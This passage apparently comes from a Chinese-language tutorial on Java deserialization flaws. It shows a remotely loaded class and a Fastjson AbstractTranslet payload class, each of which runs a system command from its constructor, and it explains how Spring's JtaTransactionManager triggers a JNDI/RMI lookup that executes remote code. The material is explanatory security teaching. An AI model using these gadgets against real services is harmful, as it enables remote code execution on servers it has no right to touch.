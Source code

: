 最后，创建一个`ExportObject`需要远程下载的类：

```java
public class ExportObject {

    public static String exec(String cmd) throws Exception {
        String sb = "";
        BufferedInputStream in = new BufferedInputStream(Runtime.getRuntime().exec(cmd).getInputStream());
        BufferedReader inBr = new BufferedReader(new InputStreamReader(in));
        String lineStr;
        while ((lineStr = inBr.readLine()) != null)
            sb += lineStr + "\n";
        inBr.close();
        in.close();
        return sb;
    }
    public ExportObject() throws Exception {
        String cmd="open /Applications/Calculator.app/";
        throw new Exception(exec(cmd));
    }
}
```

先开启 server，再运行 client 后，计算器会直接被打开！

究其原因，主要是这个类`JtaTransactionManager`类存在问题，最终导致了漏洞的实现。 源码JtaTransactionManager类重写了`readObject`方法。 重点就是方法`initUserTransactionAndTransactionManager()`， 里面会转调用到`JndiTemplate`的`lookup()`方法。

`lookup()`方法作用是：Look up the object with the given name in the current JNDI context。

也就是说，通过`JtaTransactionManager`类的`setUserTransactionName()`方法执行，最终指向了`rmi://127.0.0.1:1099/Object`，导致服务执行了恶意类的远程代码。

#### 2.3、FASTJSON 框架的反序列化漏洞分析
先来看一个简单的例子，程序代码如下：

```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import java.io.IOException;

public class Test extends AbstractTranslet {
    
    public Test() throws IOException {
        Runtime.getRuntime().exec("open /Applications/Calculator.app/");
    }

    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, com.sun.org.apache.xml.internal.serializer.SerializationHandler handler) {
    }


    public static void main(String[] args) throws Exception {
        Test t = new Test();
    }
}
```
